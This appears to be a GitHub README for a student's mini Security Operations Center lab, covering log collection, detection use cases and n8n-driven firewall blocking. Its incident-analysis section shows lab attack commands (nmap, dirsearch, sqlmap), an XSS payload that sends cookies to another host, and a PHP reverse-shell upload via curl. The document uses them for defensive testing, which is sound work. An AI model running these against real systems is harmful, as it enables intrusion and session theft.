<div align="center">


# 🛡️ Mini SOC — Building and Operating a Mini Security Operations Center

**An end-to-end Security Operations Center for log collection, threat detection, correlation, automated response, and attacker containment.**

[](https://www.splunk.com/)
[](https://suricata.io/)
[](https://owasp.org/www-project-modsecurity-core-rule-set/)
[](https://www.fortinet.com/)
[](https://n8n.io/)
[]()
[]()

</div>

---

## 📑 Table of Contents

- [Overview](#-overview)
- [Network](#-network)
- [Project Architecture](#-project-architecture)
- [Web Application](#-web-application)
- [Security Components](#-security-components)
- [Log Sources](#-log-sources)
- [Splunk Indexes](#-splunk-indexes)
- [Detection Use Cases](#-detection-use-cases)
- [Attack Simulation](#-attack-simulation)
- [Incident Analysis](#-incident-analysis)
- [SOAR Automation](#-soar-automation)
- [Email Notifications](#-email-notifications)
- [Threat Intelligence](#-threat-intelligence)
- [Installation](#-installation)
- [Features](#-features)
- [Future Improvements](#-future-improvements)
- [Contributors](#-contributors)

---

## 🧭 Overview

This repository documents my graduation project: a fully functional **Mini Security Operations Center** built from the ground up on a segmented enterprise-style network. The goal wasn't just to install a bunch of security tools side by side — it was to make them actually talk to each other, feed a central SIEM, and trigger automated responses the same way a real SOC pipeline would.

The environment covers the full detection lifecycle:

1. **Collect** — logs from network devices, servers, endpoints, the IDS, and the WAF are all shipped to Splunk.
2. **Detect** — correlation searches and alerts flag suspicious behavior (scans, brute force, injection attempts, account lockouts).
3. **Enrich** — attacker IPs are checked against AbuseIPDB before any action is taken.
4. **Respond** — n8n workflows automatically notify the SOC analyst by email and block the attacker on the FortiGate firewall, then lift the block after a defined cooldown.
5. **Investigate** — every simulated attack is traced back through Splunk to build a full incident timeline.

This README documents the architecture, the tools, the detection logic, and the automation behind the project.

---

## 🌐 Network

The lab network was designed to resemble a small enterprise with a clear separation between the internet-facing segment, internal servers, and the security monitoring stack. VLANs isolate the DMZ, internal servers, and management/monitoring traffic, with the FortiGate acting as the perimeter firewall and default gateway between segments.

> Replace the placeholders below with your exported diagrams.



**Key network elements:**

| Element            | Role                                                   |
| ------------------ | ------------------------------------------------------ |
| FortiGate Firewall | Perimeter security, NAT, automated IP blocking via API |
| Cisco Switch       | VLAN segmentation, inter-VLAN trunking                 |
| DHCP Server        | Dynamic addressing for endpoint VLANs                  |
| DMZ                | Hosts the public-facing web application behind the WAF |
| Internal VLAN      | Domain Controller, Splunk indexer, monitoring tools    |

---

## 🏗️ Project Architecture

Traffic and log flow follow the same general path, from the outside in, and from every component back into the SIEM.



Every security component in this diagram writes logs — either directly via syslog/HTTP Event Collector, or through a Splunk Universal Forwarder — so that the SIEM has full visibility across the entire path an attacker would take, from the firewall down to the application layer.

---

## 💻 Web Application

The target web application is a PHP-based portal used as the "victim" application for attack simulation and log generation. It was intentionally built with realistic functionality so that both normal traffic and attack traffic would generate meaningful logs.

- **PHP backend** — handles routing, session management, and business logic for the portal.
- **LDAP Authentication** — employee logins are authenticated directly against Active Directory over LDAP, rather than a local user table.
- **Employee Login** — internal staff authenticate with their AD credentials, giving access to the internal dashboard.
- **Client Login** — a separate, lower-privilege login flow for external/client users, kept isolated from employee accounts.
- **File Upload** — an upload feature used both as legitimate functionality and as an attack surface for file-upload testing.
- **APIs** — internal REST-style endpoints used by the dashboard, and a natural target for enumeration and abuse testing.
- **Logging** — every request, login attempt, and error is logged and forwarded to Splunk via the Universal Forwarder / Apache logs.
- **Dashboard** — a simple internal dashboard shown post-login, used to validate that authenticated sessions behave as expected under attack conditions.



---

## 🔐 Security Components

<details>
<summary><b>📊 Splunk Enterprise</b></summary>

The central SIEM of the project. All logs from the network, endpoints, IDS, and WAF are indexed here. Splunk hosts the correlation searches, alerts, and dashboards used to detect and investigate incidents, and it is the trigger source for the n8n SOAR workflows via webhook alert actions.

</details>

<details>
<summary><b>📤 Splunk Forwarder (Universal Forwarder)</b></summary>

Deployed on Linux hosts to collect `auditd`, Apache, and system logs, and forward them to the Splunk indexer over the standard forwarding port. Configured with `inputs.conf` and `outputs.conf` tailored to each host's log sources.

</details>

<details>
<summary><b>🪟 Windows Forwarder</b></summary>

Deployed on the Domain Controller and Windows endpoints to forward Windows Event Logs (Security, System, Application) and Sysmon events to Splunk, giving visibility into authentication events, account lockouts, and process-level activity.

</details>

<details>
<summary><b>🧩 Sysmon</b></summary>

Installed on Windows endpoints with a tuned configuration to log process creation, network connections, and image loads — the core telemetry used for endpoint-side detection and correlation with network alerts.

</details>

<details>
<summary><b>🐧 auditd</b></summary>

Linux Audit Framework used to capture system call activity, file access, and privilege usage on Ubuntu servers, forwarded through the Universal Forwarder into Splunk's `main` index.

</details>

<details>
<summary><b>🌐 Apache</b></summary>

Hosts the PHP web application. Access and error logs are collected and, together with ModSecurity's audit logs, form the primary source of web-layer visibility.

</details>

<details>
<summary><b>🛡️ ModSecurity + OWASP CRS</b></summary>

Deployed as a reverse-proxy WAF in front of Apache, running the OWASP Core Rule Set. Tuned to reduce false positives on legitimate application traffic while still catching SQL injection, XSS, command injection, and other common web attacks.

</details>

<details>
<summary><b>👁️ Suricata IDS</b></summary>

Monitors network traffic at the perimeter and generates alerts for port scans, suspicious protocol behavior, and known attack signatures. Suricata's EVE JSON output is forwarded to Splunk for correlation.

</details>

<details>
<summary><b>🔥 FortiGate</b></summary>

Acts as the perimeter firewall and the enforcement point for automated response. The n8n workflows call the FortiGate API (via FortiManager) to add or remove IP addresses from a block policy in response to Splunk alerts.

</details>

<details>
<summary><b>🔀 Cisco Switch</b></summary>

Provides VLAN segmentation and trunking between network zones, with logging enabled and forwarded to Splunk for visibility into switching-layer events.

</details>

<details>
<summary><b>📡 DHCP Server</b></summary>

Assigns addressing to endpoint VLANs and logs lease activity, which is useful during investigations to map an IP address back to a specific host at a given time.

</details>

<details>
<summary><b>🏢 Active Directory</b></summary>

Runs on Windows Server 2022 and serves as the identity backbone for the environment — employee authentication for the web app is performed against AD over LDAP, and account lockout events are a key detection use case.

</details>

---

## 📋 Log Sources

| Source                   | Log Type                  | Index           | Examples                                               |
| ------------------------ | ------------------------- | --------------- | ------------------------------------------------------ |
| Apache                   | Access / Error logs       | `web_index`     | GET/POST requests, 4xx/5xx errors, upload attempts     |
| ModSecurity              | WAF audit logs            | `waf_index`     | SQLi/XSS/command injection blocks, anomaly scores      |
| Suricata                 | IDS EVE JSON              | `suricata`      | Port scan alerts, signature matches, flow records      |
| Windows Server 2022 (DC) | Security Event Log        | `windows_index` | Logon failures, account lockouts, Kerberos events      |
| Sysmon                   | Sysmon Event Log          | `windows_index` | Process creation, network connections, image loads     |
| auditd                   | Linux audit logs          | `main`          | File access, syscalls, privilege escalation attempts   |
| FortiGate                | Firewall traffic/UTM logs | `main`          | Allowed/denied traffic, block policy changes           |
| Cisco Switch             | Syslog                    | `cisco_logs`    | Port status, VLAN changes, trunk events                |
| DHCP Server              | Lease logs                | `dhcp_index`    | IP assignment, lease renewal, host mapping             |
| n8n                      | Workflow execution logs   | `main`          | Webhook triggers, API responses, block/unblock actions |

---

## 🗂️ Splunk Indexes

```
main            → auditd, FortiGate, n8n execution logs
windows_index   → Windows Security Events, Sysmon
web_index       → Apache access/error logs
waf_index       → ModSecurity audit logs
suricata        → Suricata EVE JSON alerts
dhcp_index      → DHCP lease logs
cisco_logs      → Cisco switch syslog
```

---

## 🎯 Detection Use Cases

| Use Case                           | Description                                                                                |                 Severity                  | Trigger                                                                                              | Response                                                         |
| ---------------------------------- | ------------------------------------------------------------------------------------------ | :---------------------------------------: | ---------------------------------------------------------------------------------------------------- | ---------------------------------------------------------------- |
| **NMAP_SCAN_Alert**                | Detects port-scanning behavior against monitored hosts                                     |                 🟠 Medium                 | Suricata signature match for scan activity against a single source IP within a short window          | AbuseIPDB lookup → email → block 5 min → auto-unblock            |
| **ManyRequests Alert**             | Detects abnormally high request volume from a single IP (possible DoS/enumeration)         |               🟡 Low-Medium               | Splunk correlation search: request count from one source IP exceeds threshold within 1-minute window | AbuseIPDB lookup → email → block 1 min → auto-unblock            |
| **WAF Alert**                      | Detects blocked requests from ModSecurity (SQLi, XSS, command injection, etc.)             | 🔴 Critical / 🟡 Low (severity-dependent) | ModSecurity audit log event with anomaly score above threshold                                       | If Critical: block 1 min + email + AbuseIPDB. If Low: email only |
| **AD Account Lockout Correlation** | Detects repeated failed logons leading to an AD account lockout, correlated with source IP |                🔴 Critical                | Windows Security Event 4740 (account lockout) correlated with prior 4625 (failed logon) events       | AbuseIPDB lookup → email → **permanent block**                   |

---

## ⚔️ Attack Simulation

Each attack below was executed against the lab environment specifically to validate that the corresponding detection use case fired correctly end-to-end, from the initial log entry through to the SOAR response.

### 🔎 Nmap Scan

Port and service scans run against the DMZ host to trigger Suricata's scan-detection signatures.

### 📈 Many Requests

Scripted rapid requests sent to the web application to trigger the `ManyRequests` correlation search.

### 📂 Directory Enumeration

Directory and file brute-forcing against the web app using dirsearch/gobuster to test WAF and web-log detection.

### 🤖 Robots.txt Enumeration

Enumeration of `robots.txt` and disallowed paths as a lightweight reconnaissance technique.

### 🔑 Brute Force

Repeated login attempts against both the employee (LDAP) and client login forms to trigger account lockout and correlation detections.

### 📤 File Upload

Malicious file upload attempts against the upload feature to test WAF filtering and application-side validation.

### 💉 SQL Injection

SQLMap-driven injection attempts against vulnerable parameters to validate ModSecurity/OWASP CRS blocking.

### 🖥️ Command Injection

Payloads targeting OS command execution through vulnerable input fields, tested manually and via Burp Suite.

### 🧬 XSS

Reflected and stored XSS payloads submitted through form inputs and tested with Burp Suite's repeater.

### 🗃️ LDAP Enumeration

Enumeration attempts against the LDAP-backed authentication endpoint to identify valid usernames.

### 🗃️ LDAP Injection

Crafted LDAP filter payloads submitted through the login form to attempt authentication bypass.

---

## 🕵️ Incident Analysis



### Scenario 1 — Reconnaissance & Brute Force Investigation

This scenario follows the attacker's actual progression against the DMZ host, from the first port scan through to the credential attack that followed. Rather than starting from a single alert, the investigation is broken down into the four phases the attacker actually went through during testing.

#### Phase 1 – Network Reconnaissance

**Attack Command:**

```bash
nmap -sS -sV -O 192.168.4.128
```

The attacker begins with a stealth SYN scan against the DMZ host to identify open ports, running services, and the underlying operating system. Suricata detects the TCP SYN scan pattern on the wire and generates an alert, which is forwarded into the `suricata` index in Splunk. This event is picked up by the `NMAP_SCAN_Alert` correlation search, which triggers the n8n SOAR workflow automatically. n8n enriches the source IP through an AbuseIPDB lookup, then instructs the FortiGate to block the attacker's IP for five minutes and sends an email notification to the SOC analyst. Once the five-minute window expires, n8n automatically removes the block and sends a second email confirming the IP has been released.

#### Phase 2 – Web Enumeration

**Attack Command:**

```bash
dirsearch -u http://192.168.4.128/ -w /usr/share/wordlists/dirb/common.txt
```

With the scan window closed, the attacker moves on to directory enumeration against the web application, discovering `robots.txt` along the way and using it to identify additional disallowed paths that hint at the application's structure — an information disclosure issue in its own right. Apache logs every request generated by the wordlist brute-force, and Splunk detects the resulting spike in HTTP requests from a single source IP. This triggers the `ManyRequests Alert`, which starts the n8n workflow, enriches the IP via AbuseIPDB, and blocks the attacker on the FortiGate for one minute while an email notification goes out. The block is automatically lifted after one minute.

#### Phase 3 – Information Gathering

Once the application's structure is mapped out, the attacker accesses the `our-team.php` page to collect employee names and usernames. This page isn't flagged by any detection rule on its own since it's a normal, publicly reachable page — but the information gathered here is what feeds directly into the credential attack in the next phase, which is why it's included as part of the same investigation timeline rather than treated as a separate, unrelated event.

#### Phase 4 – Brute Force Attack

**Target:**

```
http://192.168.4.128/api/v1/auth/login.php
```

Using the usernames gathered from the `our-team.php` page, the attacker launches a credential brute-force attack against the login endpoint using Burp Suite, submitting a large number of authentication attempts against one of the identified accounts. Each failed attempt is met with an HTTP 401 response captured by the WAF, and on the identity side, Active Directory records the resulting lockout as Event ID 4740. Splunk's `AD Account Lockout Correlation Search` ties the WAF's 401 events to the AD lockout event, confirming that the failed logons and the lockout came from the same attack. This correlation starts the n8n workflow, which performs an AbuseIPDB lookup and — because account lockout is treated as a high-confidence indicator of a deliberate credential attack rather than user error — applies a **permanent** block on the FortiGate, followed by an email notification to the analyst.

### Scenario 2 — Web Application Exploitation Investigation

This scenario covers three separate attacks launched directly against the web application's endpoints, each one exercising a different part of the WAF Alert detection and response path.

#### Attack 1 — SQL Injection

**Command:**

```bash
sqlmap -u "http://192.168.4.128/api/v1/client/auth/login.php" --data="email=test@test.com&password=test" --batch --level=1 --risk=1 --threads=1
```

SQLMap is run against the client login endpoint to test the `email` and `password` parameters for injectable behavior. ModSecurity inspects the request against the OWASP CRS rule set and flags it as SQL injection, and the resulting audit event is indexed into Splunk, where the `WAF Alert` correlation search picks it up. Since the anomaly score associated with SQL injection is classified as Critical, the n8n workflow starts automatically: it performs an AbuseIPDB lookup, blocks the attacker on the FortiGate for one minute, and sends an email notification. The block is automatically lifted once the one-minute window expires.

#### Attack 2 — Cross-Site Scripting (XSS)

**Payloads:**

```
<script>alert('XSS')</script>
```

```
<script>new Image().src="http://192.168.4.145/log?cookie="+document.cookie;</script>
```

Both a proof-of-concept alert payload and a cookie-exfiltration payload are submitted through the application's input fields. ModSecurity inspects the payloads against the CRS XSS rules, and the resulting event is logged and indexed into Splunk, where it is picked up by the same `WAF Alert` correlation search used for the SQL injection case. If the payload is scored as Critical, the attacker is temporarily blocked on the FortiGate following the same enrich-notify-block pattern as Attack 1; if it's scored below the Critical threshold, only an email notification is sent and no block is applied.

#### Attack 3 — Malicious File Upload

**Command:**

```bash
curl -X POST -F "file=@php-reverse-shell.php" http://192.168.4.128/api/v1/files/upload.php
```

A PHP reverse-shell file is submitted to the application's upload endpoint to test whether the WAF correctly inspects uploaded file content rather than just the surrounding request parameters. ModSecurity flags the upload as malicious based on the file's content and extension, and the event is indexed into Splunk where it triggers the `WAF Alert` correlation search. As with the previous two attacks, n8n's response — enrichment, notification, and whether a block is applied — depends on the severity assigned to the specific event.

---

## ⚙️ SOAR Automation

All automated response logic is built in **n8n**, triggered by Splunk alert actions calling an n8n webhook. Each workflow follows the same general enrich → notify → contain → release pattern, with response duration scaled to the severity of the alert.

### Workflow 1 — NMAP_SCAN Alert



### Workflow 2 — ManyRequests Alert

Same flow as Workflow 1, with a shorter containment window:



### Workflow 3 — AD Account Lockout



### Workflow 4 — WAF Alert



---

## 📧 Email Notifications

Every workflow ends with (or includes) an email notification to the SOC analyst so that automated actions are never silent.


_[NMAP EMAIL]_


_[WAF EMAIL]_


_[ACCOUNT LOCK EMAIL]_


_[UNBLOCK EMAIL]_

---

## 🌍 Threat Intelligence

Before any IP is blocked, every workflow queries the **AbuseIPDB API** to enrich the alert with the IP's abuse confidence score, reported categories, and country of origin. This context is included in the analyst email and logged alongside the block action, so that response decisions aren't based purely on a single internal alert.



---

## 🛠️ Installation

<details>
<summary><b>1️⃣ Splunk Enterprise</b></summary>

```bash
